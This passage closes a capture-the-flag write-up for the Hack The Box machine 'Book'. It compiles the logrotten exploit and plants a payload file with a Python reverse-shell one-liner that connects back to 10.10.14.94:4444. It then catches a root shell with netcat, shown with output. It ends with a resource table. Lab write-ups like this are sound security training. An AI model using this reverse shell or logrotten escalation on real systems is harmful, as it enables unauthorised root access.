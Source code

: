 ```bash
reader@book:~ gcc -o logrotten logrotten.c
```

Prepare another payload file, write it to the reverse shell, and listen to port 4444 locally

```bash
reader@book:~ cat payloadfile
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.94",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then execute exploit
```bash
reader@book:~ ./logrotten -p ./payloadfile /home/reader/backups/access.log
Waiting for rotating backups/access.log...
```

At the same time, log into the target machine at another terminal, write random data to the polling log, and observe the port 4444 of the host:

```bash
 ~/htb/boxes/Book >> rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.94] from (UNKNOWN) [10.10.10.176] 37360
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
84********************714
# 
```


# Resources:~$

| Topic | Link|
|-------|-----|
| Logrotten | [Here](https://github.com/whotwagner/logrotten)|
| LFI via XSS| [Here](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)|
|LFI via XSS(Server Side XSS)|[Here](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)|
|pdf2text|[Here](https://github.com/pdfminer/pdfminer.six)|



With this, we come to the end of the story of how I owned Book 😃

Thank you for reading !!!

*I would love to hear about any suggestions or queries.*
